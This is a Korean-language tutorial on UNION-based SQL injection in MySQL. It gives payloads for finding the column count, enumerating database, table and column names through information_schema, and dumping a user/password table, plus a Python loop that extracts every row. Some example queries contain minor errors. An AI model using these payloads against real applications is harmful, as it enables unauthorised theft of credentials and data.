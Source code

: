# UNION Based sql injection 

__예시 mysql 환경__

```sql
database name -> user

table name -> UserDB

columns -> id, pw

mysql[user]>SELECT * FROM UserDB;

+-------+------------+
| id    | pw         |
+-------+------------+
| admin | passwd     |
| guest | aaa        |
| aaaaa | a          |
+-------+------------+

```

__예시 id 검색__

```sql
SELECT * FROM UserDB WHERE id='';
```


### UNION sql injection 이란?

데이터 베이스에 우리가 입력한 임의의 값으로 요청한다면 해당 임의의 값을 조작하여 UNION 연산자를 이용해 정보를 빼오는 기법이다.

__예시__

```sql
SELECT * FROM UserDB WHERE id='';
```

해당 sql query로 id Column에 값을 입력받는다면

UNION Sql injection 공격을 통해

```sql
SELECT * FROM UserDB WHERE id='' union select 1 --'';
```

이런식으로 union select (원하는 출력값) 이런 형식으로 요청을 하여 데이터 정보를 노출시킨다.

__UNION 연산자는 앞에 써져있는 쿼리의 컬럼 개수와 일정해야지 출력이 가능하다.__

만약에

```sql
SELECT id FROM UserDB id='' union select 1,2 --'';
```

union는 출력되는 컬럼 개수가 같아야지만 사용 가능하다.

하지만 위의 쿼리처럼 처음 select 에서는 id 즉 하나의 열만 출력하는데 
union select에서는 1,2를 출력하면서 2개의 행을 출력하게 되버린다.

근데 union 연산자는 행이 같아야지만 가능하기때문에 에러를 뱉을것이다.

위의 쿼리에서 union을 이용하기 위해서는

```sql
SELECT id FROM UserDB id='' union select 1 --''; 
```

이처럼 열의 개수에 따라 union 연산자를 만족시켜야된다.

* * *
<br>


### UNION Sql injection Columns Number

__union sql injection를 이용하여 컬럼 개수를 찾이 위해서는__

```sql
SELECT * FROM UserDB WHERE id='' union select 1 --'';

SELECT * FROM UserDB WHERE id='' union select 1,2 --'';

SELECT * FROM UserDB WHERE id='' union select 1,2,3 --'';

SELECT * FROM UserDB WHERE id='' union select 1,2,3,4 --'';

SELECT * FROM UserDB WHERE id='' union select 1,2,3,4,5 --'';

SELECT * FROM UserDB WHERE id='' union select 1,2,3,4,5,6 --'';
```

이처럼 무차별로 대입을 하여 해당 쿼리에서 출력할려는 컬럼 개수가 몇개있는지 유추함으로서 원하는 정보를 빼네올 수 있다.

* * *
<br>

### UNION Sql injection GET DATABASE Name

DATABASE 이름을 가져오기 위해서는

```sql
SELECT * FROM UserDB WHERE id='' UNION SELECT database(),2 --'';
```

이런식으로 database() 함수를 이용하여 데이터가 바로 노출시킬 수 있다.

하지만 해당 데이터베이스가아닌 모든 데이터베이스 이름을 빼오고 싶다면

```sql
SELECT * FROM UserDB WHERE id='' UNION SELECT (select DISTINCT table_schema from information_schema.tables limit 0,1),2 --'';
```

이처럼
 
```sql
select DISTINCT table_schema from information_schema.tables limit 0,1;
```
위의 키워드를 이용하여 모든 데이터베이스 이름을 뽑아올 수 있다.

만약에 위의 union sql injection가 성공했다면
limit 0,1 를

limit 1,1
limit 2,1
limit 3,1.... 이런식으로 무차별로 대입을 시킨 후 정보를 빼온다.

* * *
<br>

### UNION Sql injection GET TABLE Name

만약 자신이 원하는 데이터베이스의 테이블을 가져오고싶다면

```sql
SELECT * FROM UserDB WHERE id='' UNION SELECT (SELECT table_name FROM information_schema.tables WHERE table_schema='DATABASE NAME' limit 0,1),2 --'';
```

위처럼 DATABASE NAME 부분에 TABLE NAME을 얻고싶은 데이터베이스 이름을 넣으면 된다.

모든 테이블 이름을 얻고 싶다면 limit 0,1 을 

```sql
limit 1,1 
limit 2,1
limit 3,1
limit 4,1....
```

이런식으로 원하는 열의 테이블을 뽑아올 수 있다.

하지만 모든 테이블의 이름을 빼오고싶다면

```sql
(SELECT table_name FROM information_schema.tables WHERE table_schema='DATABASE NAME' limit 0,1)
에서 where 를 제거하여
(SELECT table_name FROM information_schema.tables limit 0,1)
```
이런식으로 모든 테이블 뽑아오는것이 가능하다.

* * *
<br>

### UNION Sql injection GET Columns Name

만약 자신이 원하는 테이블의 컬럼을 가져오고싶다면

```sql
SELECT * FROM UserDB WHERE id='' UNION SELECT (SELECT column_name FROM information_schema.columns WHERE table_name='table name' limit 0,1),2 --'';
```

위처럼 table name에 자신이 원하는 테이블의 컬럼을 하나씩 뽑아올 수 있다.

만약 모든 컬럼을 뽑아오고싶다면

```sql
SELECT * FROM UserDB WHERE id='' UNION SELECT (SELECT column_name FROM information_schema.columns limit 0,1),2 --'';
```

WHERE 만 없어주면은 가능하다.

* * *

<br>

### UNION Sql injection GET Columns Deta

자신이 원하는 테이블의 데이터를 빼오기 위해서는 사전에

테이블 이름과 컬럼 이름 정보가 필요하다 해당 정보를 얻는법은 위에있으니 참고하면 된다.

만약에 테이블 , 컬럼 이름을 알고있다면

```sql
SELECT * FROM UserDB WHERE id='' UNION SELECT (SELECT id FROM UserDB limit 0,1),(SELECT pw FROM UserDB limit 0,1) --'';
```

이런식으로 () 안에 자신이 원하는 테이블의 데이터를 뽑아 정보를 탈취할 수 있다.

* * *
<br>

### UNION Sql injection GET Version

데이터베이스의 버전 정보를 얻기위해서는 아주 간단하다.

version() 또는 @@version 를 이용하면 가능하다.

예로

```sql
SELECT * FROM UserDB WHERE id='' UNION SELECT @@version,2 --'';
SELECT * FROM UserDB WHERE id='' UNION SELECT version(),2 --'';
```

이처럼 자신이 사용하고있는 데이터베이스의 버전을 쉽게 탈취할 수 있다.

* * *
<br>

### UNION Sql injection python script

만약에 union sql injection를 이용하더라도 모든 데이터를 뽑아오고 싶을 경우에는

예로 게시판에 자신이 원하는 union sql injection 를 이용하여 데이터를 노출시킬 수 있다면

python 으로 간단하게 가능하다.

```py
import requests
for i in range(1,100):
    r = requests.get(url = f"url?id='' UNION SELECT (SELECT id FROM UserDB limit {i},1),(SELECT pw FROM UserDB limit {i},1)")
    print(r.text)
```

이런식으로 limit n,n 을 이용하셔 for 를 돌리면서 1씩 늘리고 자신이 원하는 모든 데이터를 뽑아올 수 있다.

테이블 , 컬럼 , 데이터베이스는 위의 python 스크립트에서 select id from userdb 부분만 자신이 원하는 구문으로 바꾸면 된다.


### 마무리

union SQL injection 기법은

다른 SQL injection 기법중 정보를 가져오기 제일 수월한 기법이다.